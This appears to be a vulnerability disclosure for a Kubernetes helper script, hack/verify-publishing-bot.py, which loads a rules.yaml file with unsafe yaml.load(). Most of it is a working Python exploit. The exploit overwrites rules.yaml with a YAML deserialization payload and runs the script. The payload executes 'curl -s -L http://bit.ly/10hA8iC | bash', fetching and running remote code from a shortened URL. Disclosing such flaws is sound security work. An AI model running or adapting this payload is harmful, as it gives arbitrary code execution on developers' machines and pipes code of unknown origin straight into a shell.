 # Description
**Arbitrary Code Excecution** in Kubernetes/hack/verify-publishing-bot.py. The hack directory contains many scripts that ensure continuous development of kubernetes, enhance the robustness of the code, improve development efficiency, etc. The explanations and descriptions of these scripts are helpful for contributors. For details, refer to the following guidelines.
# Technical Description
This package was vulnerable to Arbitrary code execution due to a use of a known vulnerable function **load()** in **yaml**. command is executed when the .py file loads the malicious rules.yaml file.  
# Exploit code
**Python File**
```python
import os
os.system('git clone https://github.com/kubernetes/kubernetes.git')
os.chdir('kubernetes/')
exploit = '''!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('curl -s -L http://bit.ly/10hA8iC | bash')"
'''
os.chdir('staging/publishing/')
os.system('rm rules.y*')
open('rules.yaml','w+').write(exploit)
os.chdir('../../')
os.system('python hack/verify-publishing-bot.py')
```
# POC
* Run the exploit code 

![](https://cdn.discordapp.com/attachments/749019614352244777/787368162122530816/kube.gif)

